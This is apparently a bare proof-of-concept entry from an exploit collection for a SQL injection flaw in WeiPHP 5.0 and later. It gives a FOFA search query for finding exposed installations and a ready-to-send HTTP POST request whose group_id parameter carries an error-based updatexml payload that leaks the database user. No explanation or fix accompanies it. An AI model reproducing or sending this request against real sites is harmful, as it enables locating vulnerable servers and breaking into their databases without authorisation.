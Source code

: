
## WeiPHP>=5.0 SQL注入漏洞

## fofa
```
app="WeiPHP"
```

## poc
```
POST /public/index.php/weixin/message/_send_by_group HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close
 
group_id[0]=exp&group_id[1]=%29+and+updatexml%281%2Cconcat%280x7e%2C%28select+user%28%29%29%2C0x7e%29%2C1%29+--
```

